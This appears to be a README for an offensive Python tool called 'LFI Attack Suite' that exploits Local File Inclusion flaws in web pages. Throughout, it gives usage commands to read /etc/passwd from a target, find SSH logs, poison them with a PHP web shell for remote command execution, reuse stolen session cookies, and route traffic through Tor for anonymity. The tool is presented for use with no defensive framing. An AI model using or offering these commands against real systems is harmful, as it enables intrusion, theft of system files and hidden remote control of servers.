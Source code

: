 # LFI Attack Suite

A powerful Python script designed to exploit Local File Inclusion (LFI) vulnerabilities using GET or POST requests. This tool also includes SSH log poisoning for privilege escalation and optional Tor integration for anonymity.

# Features

Exploit LFI vulnerabilities via GET or POST requests

Automatic detection of SSH log files

SSH log poisoning for potential remote command execution

Support for authenticated LFI exploitation via session cookies

Tor integration for anonymized requests

Requirements

Python 3.11+

requests library (pip install requests)

paramiko library (pip install paramiko)

Tor (must be running on port 9050)

Usage:

# Basic LFI Exploitation

# POST request (default)

python lfi.py http://example.com/vuln_page.php param /etc/passwd POST

# GET request

python lfi.py http://example.com/vuln_page.php param /etc/passwd GET

# Using Tor for Anonymized Requests

Ensure that the Tor service is running on your system, then use the --tor flag:

python lfi.py http://example.com/vuln_page.php param /etc/passwd POST --tor

# Detecting SSH Log Files

python lfi.py http://example.com/vuln_page.php param dummy_payload POST --log-file

# SSH Log Poisoning

Attempts to inject a PHP web shell into the SSH logs:

python lfi.py http://example.com/vuln_page.php param dummy_payload POST --ssh

# Exploiting Authenticated LFI (Using PHPSESSID)

python lfi.py http://example.com/vuln_page.php param /etc/passwd POST --cookie <SESSION_ID>
